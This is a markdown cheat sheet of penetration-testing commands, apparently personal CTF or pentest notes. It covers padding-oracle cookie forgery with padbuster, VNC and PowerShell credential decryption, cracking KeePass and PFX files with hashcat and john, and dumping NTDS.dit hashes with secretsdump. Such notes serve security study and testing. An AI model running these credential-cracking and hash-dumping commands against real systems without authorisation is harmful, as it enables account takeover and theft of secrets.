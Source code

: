 # Adding salt (as a normal string) to a password file
This is applicable when the password lacks visible salt because it was concatenated during encryption. Consequently, the salt needs to be added to the dictionary line-by-line.
```bash
sed -e 's/^/prefix/' <file> > <file.new>
```



# Cewl
Cewl can be used on a webpage, and if one suspects that a password is hidden somewhere in the website.       
[Documentation](https://www.kali.org/tools/cewl/)

## Usage
```bash
cewl -w <wordlist> -d 10 -m 1 <url>
```


# Padding oracle attack
When an application decrypts encrypted data, it will first decrypt the data; then it will remove the padding. During the clean-up of the padding, if an invalid padding triggers a detectable behaviour, you have a padding oracle vulnerability. The detectable behaviour can be an error, a lack of results, or a slower response.
```bash
# Decrypt
padbuster <url> "<cookie_value>" 8 -encoding 0 -cookies "<cookie_name>=<cookie_value>"

# Encrypt new cookie
padbuster <url> "<cookie_value>" 8 -encoding 0 -cookies "<cookie_name>=<cookie_value>" -plaintext "<new_cookie_name>=<new_cookie_value>"
```



# Powershell credentials file
The command below can be used to decrypt a given credentials file.     
```powershell
# NOTE: one has to be logged in as the user
(Import-CliXml -Path user.txt).GetNetworkCredential().Password
```




# VNC passwords
## Bash
VNC stores passwords as a hex string in `.vnc` files using a default encryption key
```bash
# Decrypt password
echo -n <string> | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

## vncpasswd.py
[Documentation](https://github.com/trinitronx/vncpasswd.py)
```bash
python vncpasswd.py -d -f <hashfile>
```   
## References
- [https://github.com/frizb/PasswordDecrypts](https://github.com/frizb/PasswordDecrypts)
- [https://github.com/billchaison/VNCDecrypt](https://github.com/billchaison/VNCDecrypt)
- [https://github.com/trinitronx/vncpasswd.py](https://github.com/trinitronx/vncpasswd.py)



# KeePass (jenkins) & kdbx files
1.  Use `keepass2john` to make the file into a hash.
2. Crack the hash file (from step 1) with `hashcat``, this will give you the **master password**    
    ```bash
    hashcat CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
    ```
3. Use `kpcli` to extract passwords: 
    ```bash
    kpcli --kdb <file>.kdbx
    ```
4. Run: `find .` in `kpcli` to list all of the passwords
5. `show -f [num]` will print a password based on the input

# .dit and .bin files
**.dit** files contain password hashes     
**.bin** files contain information about the system

## Dump hashes
*Assuming these files are on your local machine already.*
- Dump hashes  
    ```bash
    secretsdump.py -ntds <.dit file> -system <.bin file> LOCAL
    ```
- Crack the hashes
    ```bash
    # MD5
    hashcat -m 0 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    
    # NTLM
    hashcat -m 1000 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    ```

## Troubleshooting
### If hashcat cannot crack the hashes
Try [crackstation](https://crackstation.net/), the hash might already be in their system.



# PFX files
Password protected file certificate commonly used for code signing your application. It derives from the PKCS 12 archive file format certificate, and it stores multiple cryptographic objects within a single file     

## Extract private key and certificate
```bash
# PRIVATE KEY
openssl pkcs12 -in <pfx_file> -nocerts -out private.key

# CERTIFICATE
openssl pkcs12 -in <pfx_file> -clcerts -nokeys -out certificate.crt
```


### Crack the hash
`pfx2john` can turn these files into a hash which can be brute-forced to extract password.
```bash
# Make hash file
pfx2john.py <file> > <hashfile>

# Dictionary attack
john -w=/usr/share/wordlists/rockyou.txt <hashfile>

# Brute force
john  <hashfile>

# One liners
pfx2john <file>  |john /dev/stdin
pfx2john <file>  |john -w=/usr/share/wordlists/rockyou.txt /dev/stdin
```

## Login with evil-winrm
```bash
evil-winrm -i <ip> -S -k <private_key> -c <certificate>
```
